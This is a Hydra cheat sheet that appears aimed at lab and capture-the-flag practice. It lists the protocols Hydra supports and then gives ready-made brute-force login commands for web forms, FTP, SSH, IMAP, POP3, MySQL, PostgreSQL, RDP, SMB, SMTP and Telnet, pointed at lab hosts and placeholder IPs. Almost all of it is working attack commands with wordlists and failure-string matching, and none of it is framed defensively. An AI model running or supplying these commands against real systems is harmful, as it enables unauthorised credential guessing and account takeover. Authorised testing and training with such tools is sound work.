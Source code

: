 hydra

Available Hydra Protocols

~~~
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP
~~~

Hydra Examples
 
HTTP-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTPS-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTP-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
~~~

HTTPS-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local https-get /certsrv/
~~~

FTP

~~~bash
hydra -l user -P passlist.txt ftp://10.10.134.169
~~~

SSH

~~~bash
hydra -l <username> -P <full path to pass> 10.10.134.169 -t 4 ssh
~~~

IMAP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
~~~

MYSQL

~~~bash
hydra -L usernames.txt -P pass.txt <IP> mysql
~~~

POP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
~~~

POSTGRESQL

~~~bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
~~~

RDP

~~~bash
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
~~~

SMB

~~~bash
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
~~~

SMTP

~~~bash
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V

hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
~~~

Telnet

~~~bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
~~~

